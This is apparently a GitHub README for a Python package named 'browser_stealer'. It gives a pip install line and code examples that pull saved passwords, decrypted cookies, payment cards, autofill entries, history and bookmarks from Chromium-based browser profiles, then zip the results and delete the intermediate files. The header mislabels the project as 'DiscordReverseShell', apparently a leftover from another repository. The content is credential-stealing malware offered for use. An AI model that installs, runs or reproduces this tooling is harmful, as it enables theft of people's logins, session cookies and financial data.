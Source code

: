 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https:\\img.shields.io\github\languages\top\Josakko\browser_stealer">
  <img src="https:\\img.shields.io\github\last-commit\Josakko\browser_stealer">
  <img src="https:\\img.shields.io\github\stars\Josakko\browser_stealer">
  <img src="https:\\img.shields.io\github\forks\Josakko\browser_stealer">
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">DiscordReverseShell</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
<h4>

```
pip install browser_stealer
```

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%BROWSER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
